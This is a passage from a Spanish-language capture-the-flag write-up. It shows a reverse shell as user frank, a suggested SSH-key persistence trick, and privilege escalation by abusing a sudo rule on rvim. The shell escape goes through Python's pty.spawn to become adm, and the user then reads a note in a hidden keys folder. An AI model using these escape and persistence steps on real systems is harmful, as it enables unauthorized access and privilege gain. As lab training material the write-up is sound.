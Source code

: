 1. lanzamos el script desde la maquina victima

    ```bash
    ./shell
    whoami
    #Output
    frank
    ```

Ya podemos leer la flag.

> [ ! ] NOTAS: como la reverse shell no es la mejor del mundo, aqui nos podriamos crear una id_rsa y copiarla en el authorized_keys del usuario Frank para
conectarnos por ssh y obtener una mejor shell.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Aqui vemos que podriamos ejecutar el `/usr/bin/rvim` del fichero `/var/www/html/jailuser/dev/jail.c` como el usuario adm sin proporcionar contraseña.

```bash
sudo -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c

:!/bin/sh
#Output 
No se permite orden de consola en rvim

:set shell = /bin/bash
:shell
```

Aqui vemos que no podemos ejecutar comandos pero lo bueno es que rvim permite ejecutar codigo en python

```bash
:py import pty;pty.spawn("/bin/bash")
whoami 
#Output
adm
```

Aqui vemos que estamos en el directorio `/var/adm`

```bash
ls -la
cd .keys
ls -la
cat note.txt
```

Vemos un mensaje del Administrator a frank diciendole que su contraseña para encryptar cosas tiene que ser sur segundo nombre seguido de 4 digitos y un simbolo.
